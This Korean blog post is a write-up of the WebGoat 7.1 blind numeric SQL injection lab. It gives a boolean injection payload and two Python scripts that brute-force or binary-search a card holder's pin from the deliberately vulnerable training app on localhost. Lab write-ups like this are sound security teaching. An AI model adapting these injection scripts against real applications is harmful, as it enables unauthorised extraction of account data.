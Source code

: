 ```yaml
---
title: "Webgoat7.1 Blind Numberic SQL Injection"
layout: post
date: 2020-04-22
image: /assets/images/mark-img01.png
headerImage: false
tag:
- sql
- blind
- injection
- exploit
category: blog
author: pil9

---
```

 
![problem]({{site.url}}/images/blind_p.png){: class="center"}
<figcaption class="caption">Blind sql injection 문제</figcaption>  
<br>
pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.

문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.
<br>
![problem]({{site.url}}/images/p2.png){: class="center"}
<figcaption class="caption">유효 pin값은 101부터</figcaption>
<br>
위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.  

결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.

가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.

<pre><code class = "language-sql">예시)
101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
</code></pre>

pin 값이 1000보다 클 경우에는 'Account number is valid'

10000보다 클 경우에는 'Invalid account number' 가 출력되므로

조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.

약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.

<pre><code class = "language-python">import requests

cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
attack = "101 and (select pin from pins where cc_number='1111222233334444')="

for i in range(1000,10000):

    params = {'account_number':attack+str(i)}

    r = requests.post(url,data=params,cookies=cookie)
    if 'Account number is valid.' in r.text:

        print ('Account Number:',i)
        exit()
</code></pre>

<pre><code class="language-python">//결과 값
Account Number: 2364
</code></pre>

추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.

<pre><code class="language-python">import requests

# 이진 탐색 알고리즘을 통한 flag 탐색 함수
def search(pin_data):
    start=0
    end = len(pin_data) -1
    while start <= end:
        mid = (start + end) // 2

        # 중간 값이 한개이면 flag
        if (end-start) == 2:
            return mid
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(mid) + ")"}
        res=s.post(url, data=data)
        
        if 'Account number is valid' in res.text:
            start = mid + 1
        else:
            end = mid -1

# 로그인 세션 처리는 첫번째 코드로 해도 상관없음
login_url = 'http://localhost:8080/WebGoat/j_spring_security_check'
login_data = {
    'username' : 'guest','password' : 'guest'
}
url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'

with requests.Session() as s:
    # 로그인 및 세션 저장(as s)
    res = s.post(login_url, data=login_data, verify=False, allow_redirects=False)
    
    # pin 초기 값 set
    pin=1
    
    # pin 자릿수 탐색
    for i in range(10):
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(pin) + ")"}
        res=s.post(url, data=data)
        if 'Invalid account number' in res.text:
            pin=int(pin/10)
            break
        pin=int(pin*10)
    
    # 이진 탐색을 위한 리스트 생성
    li = [i for i in range(pin,pin*10+1)]
    
    # 정상 pin 값 서칭
    flag = search(li)

    print("AC NUMBER :",flag)
                

</code></pre>

<pre><code class="language-python">//결과값
AC Number: 2364
</code></pre>




